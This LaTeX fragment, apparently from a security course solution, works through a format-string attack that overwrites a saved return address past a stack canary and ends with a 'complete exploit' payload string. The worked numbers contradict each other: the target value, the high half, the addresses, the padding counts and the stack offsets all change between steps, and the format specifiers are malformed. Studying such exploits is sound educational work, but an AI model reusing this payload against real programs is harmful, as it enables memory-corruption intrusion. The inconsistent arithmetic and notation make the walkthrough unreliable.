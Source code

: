 \begin{enumerate}
        A possibility to overcome this problem is to let the pointer point to the EIP, so we can directly overwrite it without touching the canary. 
    \item To exploit it, we need to write 0xf4d0e349 to 0xf b5d8.
        As 0xf4d0 > 0xe349, we don't need to swap.     
        The general format string structure is:
\begin{verbatim}
<where to write><where to write + 2>%<low value>c%<pos>$hn%<high value>c%<pos>$hn
\end{verbatim}
        \begin{itemize}
            \item Where to write = \texttt{/xd8/xb5/xf/xf}
            \item Where to write + 2 = \texttt{/xda/xb5/xf/xf}
            \item we have already written "*Decrypted*:" (12 characters) + 8 characters
            \item low value = 0xe349, so 58185 - 12 - 8 = 58165
            \item high value = 0xf7e3, so 62672 - 58185= 4487
        \end{itemize}
        Also, the displacement on the stack of the printf's argument (i.e., the buf er message) is 2, the displacement of “where to write” is 2 + 3 = 5 and the displacement of “where to write + 1” is 6.
        Complete exploit: 
\begin{verbatim}
\xd8\xb5\xff\xff\xda\xb5\xff\xff%58165c$5hn%4507c$7hn
\end{verbatim}
\end{enumerate}